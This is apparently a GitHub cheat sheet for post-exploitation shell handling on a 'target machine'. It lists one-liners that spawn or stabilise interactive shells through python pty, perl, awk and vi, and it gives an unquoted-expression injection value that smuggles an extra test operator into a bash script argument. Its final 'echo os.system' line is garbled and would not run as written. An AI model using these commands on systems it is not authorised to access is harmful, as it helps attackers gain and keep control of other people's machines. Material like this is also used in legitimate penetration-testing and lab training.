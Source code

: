 - - - 
###### Is Python present on the target machine ??

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
         OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear && ls -lsaht --color=auto'

Ctrl + Z [Background Process]

stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
<br>

###### Is perl present on the target machine?

```sh
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'
```
<br>

##### Is AWK present on the target machine? 

```sh
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'
```
<br>

##### With Vi :

```sh
vi 
:set shell=/bin/bash
:shell
```
<br>

##### Bash Command Unquoted Expresion Injection : 

https://stackoverflow.com/questions/65399335/unquoted-expression-injection-bash
```sh
./yourscript "0 -o foo" 
```
<br>

##### With echo : 

```sh
echo os.system("/bin/bash") 
```